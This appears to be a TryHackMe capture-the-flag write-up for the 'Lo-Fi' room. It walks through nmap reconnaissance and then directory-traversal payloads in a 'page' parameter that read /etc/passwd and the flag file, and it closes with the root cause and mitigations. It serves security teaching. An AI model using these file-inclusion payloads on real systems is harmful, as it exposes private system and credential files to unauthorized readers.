









# Lo-Fi

Platform: TryHackMe  
Difficulty: Easy  
Category: Web / Local File Inclusion (LFI)

---

## 1. Initial Reconnaissance

### 1.1 Port Scan

```bash
nmap -sC -sV -oN nmap.txt <TARGET_IP>
```



### Key Findings

- **Port 80** → HTTP
- **Port 22** → SSH

The web service on port 80 is the primary attack surface.

---

## 2. Web Application Analysis

Navigated to:

```
http://<TARGET_IP>
```



The application presents a music-themed interface with selectable discographies.

When clicking different sections, only part of the page updates dynamically, suggesting backend content loading via parameters.

Observing the URL structure revealed a parameter controlling page content, consistent with PHP-based file inclusion behavior.

Example request intercepted:

```
GET /?page=sleep HTTP/1.1
```



This indicates that the `page` parameter likely determines which file is included server-side.

---

## 3. Testing for Local File Inclusion

The request was intercepted and sent to a repeater tool for parameter manipulation.

The `page` parameter was modified to reference local system files.

### Attempt 1

```
?page=/etc/passwd
```



Returned HTTP 200 but no file contents, suggesting filtering.

---

### Attempt 2 — Directory Traversal

```
?page=../etc/passwd
```



No successful inclusion.

---

### Attempt 3 — Extended Traversal

```
?page=../../etc/passwd
```



---

### Attempt 4 — Extended Traversal

```
?page=../../../etc/passwd
```



Successful response containing the contents of `/etc/passwd`.



This confirms a **Local File Inclusion (LFI)** vulnerability via directory traversal.

---

## 4. Exploitation

The task specifies that the flag is located in the root of the filesystem.

Using the confirmed traversal depth:

```
?page=../../flag.txt
```



The server returned the contents of `/flag.txt`.

Flag successfully retrieved.

---

## 5. Vulnerability Analysis

### Root Cause

The application dynamically includes files based on unsanitized user input passed via the `page` parameter.

No validation or path restriction mechanisms are enforced.

### Why It Works

- User-controlled input is directly passed to a file inclusion function.
- Directory traversal sequences (`../`) are not filtered.
- The server process has permission to read system files.

This results in a classic **Local File Inclusion (LFI)** vulnerability.

---

## 6. Mitigation

- Strictly validate and whitelist allowed file names.
- Prevent directory traversal sequences (`../`) in user input.
- Use absolute paths and controlled routing logic.
- Disable direct file inclusion from user-supplied parameters.

---

## 7. Key Takeaways

- Dynamic file loading parameters are high-risk attack surfaces.
- Directory traversal sequences can expose sensitive system files.
- Always test for LFI when parameters appear to control backend content loading.
- LFI impact depends on file permissions and server configuration.
